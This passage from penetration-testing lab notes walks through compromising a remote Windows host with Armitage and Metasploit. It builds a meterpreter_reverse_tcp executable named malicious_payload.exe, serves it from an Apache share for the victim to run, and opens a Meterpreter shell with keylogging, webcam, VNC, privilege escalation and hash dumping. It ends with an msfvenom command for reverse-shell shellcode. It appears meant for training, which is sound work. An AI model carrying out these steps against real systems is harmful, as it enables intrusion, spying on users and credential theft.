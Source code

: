 This will open a VNC session for the target machine, as shown in the screenshot. Using this session, you can see the victim’s activities on the system, including the files, websites, software, and other resources the user opens or runs.



### Gain Access to a Remote System using Armitage

	service postgresql start

Start Armitage from menu: Pentesting --> Exploitation Tools --> Metasploit Framework --> armitage

Scan for live hosts in the network: Hosts --> Nmap Scan --> Intense Scan

From the left-hand pane, expand the payload node, and then navigate to windows --> meterpreter; double-click meterpreter_reverse_tcp

The windows/meterpreter_reverse_tcp window appears. Scroll down to the LPORT Option, and change the port Value to 444. In the Output field, select exe from the drop-down options; click Launch.
The Save window appears. Select Desktop as the location, set the File Name as malicious_payload.exe, and click the Save button.

To share the malicious_payload.exe file with the target machine:

	mkdir /var/www/html/share
	chmod -R 755 /var/www/html/share
	chown -R www-data:www-data /var/www/html/share
	cp /root/Desktop/malicious_payload.exe /var/www/html/share/
	service apache2 start


Switch back to the Armitage window. In the left-hand pane, double-click meterpreter_reverse_tcp.
The windows/meterpreter_reverse_tcp window appears. Scroll down to LPORT Option and change the port Value to 444. Ensure that the multi/handler option is selected in the Output field; click Launch.


Copy to target machine by navigating to http://10.10.1.13/share. Execute malicious_payload.exe.

Right-click on the target host and navigate to Meterpreter 1 --> Interact --> Meterpreter Shell. Type sysinfo to view the system details of the exploited system.

Similarly, you can explore other options such as Desktop (VNC), Show Processes, Log Keystrokes, and Webcam Shot.

You can also escalate privileges in the target system using the Escalate Privileges option and further steal tokens, dump hashes, or perform other activities.


### Using Ninja Ronin


### Perform Buffer Overflow Attack to Gain Access to a Remote System


Use of Immunity Debugger to inspect vulnerable application crashes.

Generate the shellcode:

	msfvenom -p windows/shell_reverse_tcp LHOST=[Local IP Address] LPORT=[Listening Port] EXITFUNC=thread -f c -a x86 -b “\x00”
